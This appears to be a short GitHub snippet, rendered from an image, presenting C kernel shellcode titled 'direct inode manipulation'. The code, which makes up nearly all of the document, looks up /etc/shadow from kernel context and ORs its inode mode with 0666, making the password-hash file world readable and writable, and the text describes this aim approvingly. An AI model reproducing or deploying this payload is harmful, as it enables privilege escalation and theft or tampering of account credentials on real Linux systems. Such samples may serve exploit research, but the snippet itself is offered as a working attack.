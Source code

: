 direct inode manipulation (2)
=============================

The idea behind this sample is to use direct inode manipulation for changing `/etc/shadow` attributes so it will became world readable/writable :-)

~~~
void shellcode(void) {
	int (*user_path_at_empty)(int, char *, unsigned, void *, int *) = (void *)(X_user_path_at_empty + 5);
	int (*path_put)(void *) = (void *)(X_path_put + 5);
	struct path { void *mnt; void *dentry; } path = { 0 };
	if (!user_path_at_empty(-100, (char []){ "/etc/shadow" }, 0, &path, 0)) {
		void *inode = (void *)(*(long *)(path.dentry + 48)); // dentry->d_inode
		*(unsigned short *)(inode + 0) |= 0666; // inode->i_mode
		path_put(&path);
	}
}
~~~
